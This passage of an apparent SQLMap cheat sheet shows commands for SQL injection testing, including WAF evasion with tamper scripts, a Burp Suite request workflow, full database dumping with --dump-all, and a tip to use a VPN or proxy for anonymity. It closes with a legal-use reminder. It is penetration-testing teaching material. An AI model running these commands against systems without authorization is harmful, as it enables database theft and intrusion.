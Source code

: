 ### 12. 🕵️ Evade WAF using Tamper Scripts

```bash
sqlmap -u "http://example.com/item.php?id=1" --tamper=space2comment
```

✔️ Uses obfuscation to bypass Web Application Firewalls (WAF).

---

## 🧪 SQLMap in Burp Suite Workflow

1. Intercept request in Burp
2. Right-click → **"Copy as cURL"**
3. Use with SQLMap:

```bash
sqlmap -r request.txt
```

Or:

```bash
sqlmap -u "..." --cookie="..." --data="..."
```

---

## 🧠 Tips for Advanced Use

* Use `--batch` to automate answers in scripting.
* Use `--risk 3 --level 5` for deeper testing.
* Use `--dump-all` to get all data (careful, noisy).
* Combine with VPN/Proxy for anonymity.
* Monitor HTTP traffic with `--proxy=http://127.0.0.1:8080` (for Burp Suite).

---

## 📌 Real-World Example

```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs
```

✔️ Public test site for learning and testing SQLMap.

---

## 🔐 Legal and Ethical Use

* ✅ Only use on systems you **own** or have **explicit permission** to test.
* ❌ Never use SQLMap on public or third-party sites without authorization.
* ⚠️ Unauthorized use can lead to **legal consequences**.

---
